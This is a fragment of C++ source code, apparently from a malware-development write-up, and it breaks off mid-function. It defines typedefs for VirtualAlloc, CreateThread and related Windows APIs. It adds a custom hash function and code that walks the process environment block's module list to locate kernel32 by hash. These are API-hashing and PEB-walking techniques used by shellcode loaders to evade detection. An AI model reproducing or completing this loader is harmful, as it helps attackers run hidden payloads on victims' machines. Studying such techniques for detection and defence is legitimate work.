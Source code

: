 ```cpp
  LPCSTR lpModuleName
);

typedef FARPROC(WINAPI *fnGetProcAddress)(
  HMODULE hModule,
  LPCSTR  lpProcName
);

typedef PVOID(WINAPI *fnVirtualAlloc)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

typedef PVOID(WINAPI *fnCreateThread)(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);

typedef PVOID(WINAPI *fnWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static DWORD calcMyHashBase(LDR_MODULE* mdll) {
  char name[64];
  size_t i = 0;

  while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
    name[i] = (char)mdll->dllname.Buffer[i];
    i++;
  }
  name[i] = 0;
  return calcMyHash((char *)CharLowerA(name));
}

static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
```
